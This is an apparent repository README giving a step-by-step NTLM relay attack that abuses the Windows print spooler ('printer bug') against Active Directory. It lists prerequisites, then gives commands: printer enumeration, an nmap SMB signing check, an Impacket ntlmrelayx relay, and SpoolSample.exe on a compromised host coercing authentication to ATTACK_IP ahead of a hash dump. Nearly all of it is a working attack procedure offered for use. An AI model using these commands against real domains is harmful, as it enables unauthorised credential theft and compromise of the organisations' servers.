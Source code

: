 ## Requirements:

### 1) Machine account administrative privileges

### 2) Valid set of AD account credentials

### 3) Network connectivity to the target's SMB service

### 4) The target host must be running print spooler service

### 5) The hosts must not have SMB signing enforced

## Commands:

#### 1) GWMI Win32_Printer -Computer COMPUTER_NAME 

#### OR: Get-PrinterPort -ComputerName COMPUTER_NAME

## SMB Signing verification

#### nmap --script=smb2-security-mode -p 445 DOMAIN DOMAIN2

### If SMB is not enforced, then it is exploitable.

#### 1) python3 Impacket-ntlmrelayx.py -smb2support -t smb://SERVER_IP -debug (Set up NTLM Relay)

#### 2) On a compromised machine: SpoolSample.exe SERVER DOMAIN "ATTACK_IP"

#### 3) Perform a hashdump if no command is specified (SpoolSample Exploit)

## THIS ATTACK CAN BE UNSTABLE SO USE IT WITH CAUTION!
